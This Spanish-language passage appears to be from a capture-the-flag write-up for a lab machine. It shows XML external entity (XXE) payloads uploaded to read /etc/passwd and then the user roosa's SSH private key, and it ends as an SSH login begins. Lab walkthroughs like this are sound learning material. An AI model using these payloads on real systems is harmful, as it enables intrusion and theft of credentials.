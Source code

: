 En este caso, vemos que el campo **Author** esta reportado en la web y le indicamos que queremos ver el contenido del 
```bash
 /etc/passwd 
```
 en su lugar.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Uploadeamos el fichero y si vamos en 
```bash
 http://10.10.10.91:5000/upload/nombre-del-fichero.xml 
```
 vemos que podemos ver el contenido del 
```bash
 /etc/passwd 
```
 de la 
maquina.

Como hemos visto que havia un usuario llamado **roosa**, intentamos ver si tiene un fichero 
```bash
 id_rsa 
```


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Despues de subir este nuevo fichero podemos ver la id_rsa del usuario roosa.



## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Conexion por SSH {-}

Como ya tenemos una id_rsa nos conectaremos como el usuario roosa
